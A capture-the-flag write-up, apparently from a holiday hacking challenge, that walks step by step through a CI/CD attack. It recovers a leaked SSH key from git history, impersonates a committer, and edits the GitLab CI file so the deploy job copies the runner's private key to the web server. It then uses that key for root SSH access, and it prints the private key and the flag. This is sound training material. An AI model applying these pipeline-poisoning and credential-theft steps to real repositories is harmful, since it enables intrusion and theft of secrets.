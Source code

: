 ```yaml
---
sidebar_position: 3
---
```


# Jolly CI/CD

## Welcome screen

```bash
Greetings Noble Player, 

Many thanks for answering our desperate cry for help!

You may have heard that some evil Sporcs have opened up a web-store selling 
counterfeit banners and flags of the many noble houses found in the land of 
the North! They have leveraged some dastardly technology to power their 
storefront, and this technology is known as PHP! 

***gasp*** 

This strorefront utilizes a truly despicable amount of resources to keep the 
website up. And there is only a certain type of Christmas Magic capable of 
powering such a thing… an Elfen Ring!

Along with PHP there is something new we've not yet seen in our land. 
A technology called Continuous Integration and Continuous Deployment! 

Be wary! 

Many fair elves have suffered greatly but in doing so, they've managed to 
secure you a persistent connection on an internal network. 

BTW take excellent notes! 

Should you lose your connection or be discovered and evicted the 
elves can work to re-establish persistence. In fact, the sound off fans
and the sag in lighting tells me all the systems are booting up again right now.  

Please, for the sake of our Holiday help us recover the Ring and save Christmas!
```

## Helpfull hints

```
Commiting to Mistakes
From: Tinsel Upatree
Terminal: Jolly CI/CD
The thing about Git is that every step of development is accessible – even steps you didn't mean to take! git log can show code skeletons.
```

```
Switching Hats
From: Tinsel Upatree
Terminal: Jolly CI/CD
If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.
```

![Talk to Tinsel Upatree](/img/elfen-ring/git-hint.png)


## Hacking CI/CD

From talking to Tinsel Upatree we get a link to a Gitlab repo (see screenshot above). Cloning it: 

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder
Cloning into 'rings-of-powder'...
fatal: unable to update url base from redirection:
  asked for: http://gitlab.flag.net.internal/rings-of-powder/info/refs?service=git-upload-pack
   redirect: http://gitlab.flag.net.internal/users/sign_in
grinchum-land:~$
```

No access here. Trying the full link hinted by Upatree

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 23.07 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
grinchum-land:~$
```

Looking at what I've cloned

```bash
grinchum-land:~/wordpress.flag.net.internal$ git status
fatal: detected dubious ownership in repository at '/home/samways/wordpress.flag.net.internal'
To add an exception for this directory, call:

        git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git status
On branch main
Your branch is up to date with 'origin/main'.

nothing to commit, working tree clean
grinchum-land:~/wordpress.flag.net.internal$
```

Looking at the Git commit log, there are ususally gold to be found in the log:

```bash
grinchum-land:~/wordpress.flag.net.internal$ git log
.
.
.

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops

commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

It appears user "knee-oh" made a happy little accident in commit abdea0ebb21b156c01f7533cea3b895c26198c98 and rectified it in commit e19f653bde9ea3de6af21a587e41e7a909db1ca5. Let's see what accident that was!

```bash
grinchum-land:~/wordpress.flag.net.internal$ git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
HEAD is now at abdea0e added assets
grinchum-land:~/wordpress.flag.net.internal$ ls -la
total 48
drwxr-xr-x 5 samways users  4096 Dec 11 08:35 .
drwxr-xr-x 1 samways  1002  4096 Dec 11 08:26 ..
drwxr-xr-x 8 samways users  4096 Dec 11 08:36 .git
drwxr-xr-x 2 samways users  4096 Dec 11 08:35 .ssh
-rw-r--r-- 1 samways users 19915 Dec 11 08:24 license.txt
-rw-r--r-- 1 samways users  7401 Dec 11 08:24 readme.html
drwxr-xr-x 6 samways users  4096 Dec 11 08:24 wp-content
```

Oh - look at that! A .ssh folder, what's inside?

```bash
grinchum-land:~/wordpress.flag.net.internal$ ls -la .ssh/
total 16
drwxr-xr-x 2 samways users 4096 Dec 11 08:35 .
drwxr-xr-x 5 samways users 4096 Dec 11 08:35 ..
-rw-r--r-- 1 samways users  411 Dec 11 08:35 .deploy
-rw-r--r-- 1 samways users  102 Dec 11 08:35 .deploy.pub
```

Let's make use of this SSH key

```bash
grinchum-land:~/wordpress.flag.net.internal$ cp -r .ssh $HOME/
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/    
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/.ssh/
grinchum-land:~/wordpress.flag.net.internal$ chmod 644 $HOME/.ssh/.deploy.pub 
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 $HOME/.ssh/.deploy
grinchum-land:~/wordpress.flag.net.internal$ touch $HOME/.ssh/config
```

I had to tell Git which private key to use by creating a config file and putting this as its content:

```
Host gitlab.flag.net.internal
  User git
  Hostname gitlab.flag.net.internal
  IdentityFile ~/.ssh/.deploy
```

Cloning the repository using SSH instead of HTTP:

```bash
grinchum-land:~$ git clone git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
```

Further impersonation, update the Git username and email settings (values grabbed from git log):

```bash
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "knee-oh"
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "sporx@kringlecon.com"
```

At this point it was tiresome to reproduce the steps above each time the terminal was reset, so I put my commands in a script to make things more efficient:

```bash
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
cd wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
cp -r .ssh $HOME/
chmod 700 $HOME/    
chmod 700 $HOME/.ssh/
chmod 644 $HOME/.ssh/.deploy.pub 
chmod 600 $HOME/.ssh/.deploy
touch $HOME/.ssh/config
echo -e "Host gitlab.flag.net.internal\n\tUser git\n\tHostname gitlab.flag.net.internal\n\tIdentityFile ~/.ssh/.deploy" >> $HOME/.ssh/config
cd 
mv wordpress.flag.net.internal wordpress.flag.net.internal.bak 
git clone git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
git config --global user.name "knee-oh"
git config --global user.email "sporx@kringlecon.com"
```

Now, here's the meat. Inside the repositoriy there is a file .gitlab-ci.yml 

```bash
grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml 
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/htm
```

This contains a command to run when deploying. If we look closer at it, it uses a SSH key (/etc/gitlab-runner/hhc22-wordpress-deploy). If we change the file to:

```bash
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal:/var/www/htm
```

The SSH key will be rsynced over to the webserver when the deployment runs. So lets commit the file above and retrieve the SSH key:

```bash
grinchum-land:~/wordpress.flag.net.internal$ wget wordpress.flag.net.internal/hhc22-wordpress-deploy
grinchum-land:~/wordpress.flag.net.internal$ cat hhc22-wordpress-deploy 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3wAAAJiMXr0BjF69
AQAAAAtzc2gtZWQyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3w
AAAEBtNE6sqOFoqkmOhcB/9DgzaQhQRC/bwkAbsBXwqrt/mPwRh1lM6l/lES5Zcxv0UoIV
aiIhfYehTVof3RXQ+2rfAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
grinchum-land:~/wordpress.flag.net.internal$
```

Success! Now ssh into the Wordpress server:

```bash
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 hhc22-wordpress-deploy 
grinchum-land:~/wordpress.flag.net.internal$ ssh root@wordpress.flag.net.internal -i hhc22-wordpress-deploy
root@wordpress:~# ls /
bin  boot  dev  etc  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@wordpress:~# cd /  
root@wordpress:/# cat flag.txt
```

And the flag is: 

![Elfen ring flag](/img/elfen-ring/elfen-ring-flag.png)

Text value: oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT